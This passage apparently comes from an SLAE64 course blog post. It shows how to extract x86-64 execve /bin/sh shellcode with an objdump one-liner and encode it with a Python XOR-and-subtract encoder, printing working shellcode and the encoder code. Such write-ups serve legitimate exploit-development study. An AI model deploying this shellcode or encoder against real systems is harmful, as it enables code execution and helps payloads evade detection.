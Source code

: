 In order to extract the shellcode, we first have to compile the `Assembly` code. This process consists of assembling and linking, which are described in previous blog posts. So we will use the bash  script `compile.sh` again.

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/4_Custom_encoder$ ./compile.sh execve-stack
[+] Assembling with Nasm ... 
[+] Linking ... 
[+] Done!
```

Now, in order to actually extract the shellcode from the `execve-stack` executable we use the `objdump` one-liner, which displays information from object files as described previously:

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/4_Custom_encoder$ objdump -d ./execve-stack |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05"
```

After that, paste the extracted shellcode at the `shellcode` variable of the python script `xor-sub-encoder.py`, which performs `XOR` operation on each byte of the shellcode with the static key `0xAA` and then subtracts a constant number, which in our case is `1`. It should be noted that the key of `XOR` must not exist inside the shellcode, because it will lead to a nullbyte (`0x00`).

The whole `Python` script is the following:

```python
#!/usr/bin/python

shellcode = ("\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05")

encoded = ""
encoded2 = ""

sub_value = 1

print 'XOR - SUB Encoded shellcode: \n'

for x in bytearray(shellcode):
	# XOR encoding
	y = (x ^ 0xAA) - sub_value

	encoded += '\\x'
	encoded += '%02x' % y

	encoded2 += '0x'
	encoded2 += '%02x,' % y

print encoded

print encoded2

print 'Shellcode Length: %d\n' % len(bytearray(shellcode))
```
